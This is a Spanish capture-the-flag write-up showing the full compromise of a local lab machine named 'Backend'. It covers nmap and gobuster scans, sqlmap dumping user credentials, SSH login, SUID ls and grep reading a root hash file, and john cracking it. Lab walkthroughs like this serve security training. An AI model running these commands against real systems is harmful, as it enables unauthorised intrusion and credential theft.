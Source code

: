 ```yaml
---
description: '✍️ Autor: 4bytes🔍 Dificultad: Fácil  📅 Fecha de creación: 29/08/2024'
---
```


# Backend

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (807).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 172.17.0.2
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (917).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 172.17.0.2
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (916).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagamos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web sea una página bajo desarrollo podemos ver que hay una pestaña de Login.

<figure><img src="../../.gitbook/assets/image (918).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (919).png" alt=""><figcaption></figcaption></figure>

Ahora buscaremos directorios y archivos con la herramienta **Gobuster** a través de:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,txt,php,xml
```

<figure><img src="../../.gitbook/assets/image (921).png" alt=""><figcaption></figcaption></figure>

Probamos con credenciales básicas y con una inyección básica pero nada.

### 🚀 **EXPLOTACIÓN**

Vamos a probar con **sqlmap** para ver que bases de datos hay.

```bash
sqlmap -u "http://172.17.0.2/login.html" --forms --batch --dbs
```

<figure><img src="../../.gitbook/assets/image (920).png" alt=""><figcaption></figcaption></figure>

Ahora vemos el contenido de la base de datos **users**.

```bash
sqlmap -u "http://172.17.0.2/login.html" --forms --batch -D users --tables
```

<figure><img src="../../.gitbook/assets/image (922).png" alt=""><figcaption></figcaption></figure>

Ahora vemos el contenido de la tabla de **usuarios**.

```bash
sqlmap -u "http://172.17.0.2/login.html" --forms --batch -D users -T usuarios --dump
```

<figure><img src="../../.gitbook/assets/image (923).png" alt=""><figcaption></figcaption></figure>

Probamos con esas credenciales pero con pepe logramos loguearnos en SSH.

```bash
ssh pepe@172.17.0.2
```

<figure><img src="../../.gitbook/assets/image (924).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar. No tenemos permisos **SUDO**.

<figure><img src="../../.gitbook/assets/image (925).png" alt=""><figcaption></figcaption></figure>

Buscamos permisos **SUID**.

```bash
find / -perm -4000 2>/dev/null
```

<figure><img src="../../.gitbook/assets/image (926).png" alt=""><figcaption></figcaption></figure>

Nos llama la atención **ls** y **grep** por lo que buscamos en esta [página ](https://gtfobins.github.io/)cómo explotarlo.

```bash
/usr/bin/ls -la /root
/usr/bin/grep '' /root/pass.hash
```

<figure><img src="../../.gitbook/assets/image (927).png" alt=""><figcaption></figcaption></figure>

Vemos que es un hash en formato **MD5** por lo que vamos a desencriptarlo.

```bash
john hash --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-MD5
```

<figure><img src="../../.gitbook/assets/image (928).png" alt=""><figcaption></figcaption></figure>

Nos logueamos como root.

<figure><img src="../../.gitbook/assets/image (929).png" alt=""><figcaption></figcaption></figure>
